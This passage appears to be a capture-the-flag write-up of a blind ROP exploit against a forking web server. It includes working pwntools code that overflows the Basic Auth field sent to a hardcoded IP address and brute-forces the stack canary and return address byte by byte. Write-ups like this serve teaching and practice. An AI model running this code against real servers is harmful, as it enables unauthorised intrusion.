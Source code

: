 The overarching steps are as follows, and I'll go through each of them in more detail:
1. byte-by-byte overwriting, to perform stack reads
2. finding a stop gadget
3. finding the csu gadget
4. finding the plt
5. using some write function to leak the binary
6. use leaked binary to develop full exploit

# Stack Reads
The binary is likely compiled with stack canaries and is position-independent. We must bypass both of these protections first. As mentioned in the paper, many servers fork a child process for each request for performance. Since child processes inherit the parent's address space, each one will have the same (but still random) addresses and stack canary. Thus, we can overflow one byte at a time, trying each byte from 0 to 255 until we do not get a crash. With this technique, we can leak both the stack canary and the function's return address.

In order to have more control over what we are sending, we will be using a raw pwntools socket rather than something like `requests`.

```python
def send_stuff(payload):
  while True:
    try:
      p = remote('138.197.75.201', 80)
      break
    except:
      pass

  p.send("""GET / HTTP/1.1\r
Host: {}\r
Authorization: Basic {}\r
\r
""".format(domain, base64.b64encode(username+b':'+payload).decode()))
  return p
```

The code to do the byte-by-byte brute force is shown below.
```python
username = b'A'

def bash_stack():
  password = b''
  while len(password) < 46:
    with log.progress(f'bashing {len(password)}') as l:
      for char in range(256):
        l.status(hex(char))
        with context.local(log_level='error'):
          p = send_stuff(password+bytes([char]))

          if b'502' not in p.recvuntil('\r\n'):
            password += bytes([char])
            print(password.hex())
            p.close()
            break
          p.close()
      else:
        l.failure(":(")
        break
      l.success('done')
  return password
```
